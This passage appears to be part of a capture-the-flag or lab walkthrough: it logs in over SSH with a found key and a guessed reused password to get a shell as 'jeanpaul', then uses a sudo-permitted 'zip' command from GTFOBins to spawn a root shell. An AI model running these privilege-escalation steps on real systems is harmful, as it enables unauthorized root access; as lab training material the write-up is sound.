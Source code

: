 When trying to ssh in, we need to change `id_rsa` permissions with `chmod 400`

`ssh -i id_rsa jeanpaul@192.168.120.136`

When prompted for a password, we can do some guesswork with previous passwords found.

`I_love_java` gets us a shell as jeanpaul


---

## getting root

running `sudo -l` as jeanpaul we see that we can run `zip` as root

gtfobins tells us we can get a shell with these commands:

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```